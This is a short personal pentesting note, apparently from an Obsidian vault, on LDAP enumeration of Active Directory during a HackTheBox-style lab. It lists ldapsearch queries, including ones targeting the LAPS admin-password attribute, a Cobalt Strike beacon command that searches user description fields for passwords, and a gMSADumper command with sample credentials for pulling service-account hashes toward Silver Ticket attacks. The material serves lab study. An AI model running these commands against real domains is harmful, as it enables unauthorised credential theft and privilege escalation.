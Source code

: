 ```yaml
---
creation date: December 19th 2022
last modified date: December 19th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[ldap]]  
___

## Description:  

Many tools including ldapsearch will use ldap queries:

`ldapsearch -x -h intelligence.htb -s base namingcontexts` ^216b42

ADsearch is another:

[[Active Directory Enumeration#^6a6097]]

### LDAP Queries

^cdfdbf

Get all data (WARNING: this will be very loud and look like bloodhound)
```
ldapsearch (objectclass=*)
```

Retrieve All Schema Info

```
ldapsearch (schemaIDGUID=*) name,schemaidguid -1 "" CN=Schema,CN=Configuration,DC=windomain,DC=local
```

Retrieve Only the ms-Mcs-AdmPwd schemaIDGUID

```
ldapsearch (name=ms-mcs-admpwd) name,schemaidguid 1 "" CN=Schema,CN=Configuration,DC=windomain,DC=local
```

finding all domain groups that end in "Admins"
`"(&(objectCategory=group)(cn=*Admins))"`

to look for passwords in the description field of AD
`beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search (&(objectClass=User)(objectCategory=Person)) name,samaccountname,description






**How to get hashes from ldap with valid creds
https://github.com/micahvandeusen/gMSADumper

`python3 gMSADumper.py -u 'Ted.Graves' -p 'Mr.Teddy' -d 'intelligence.htb' -l 'dc.intelligence.htb'

If you get a service account hash you can make a [[Silver Ticket#^4540be]]


Also see [[Active Directory Enumeration]]

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: December 19th 2022 (03:19 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
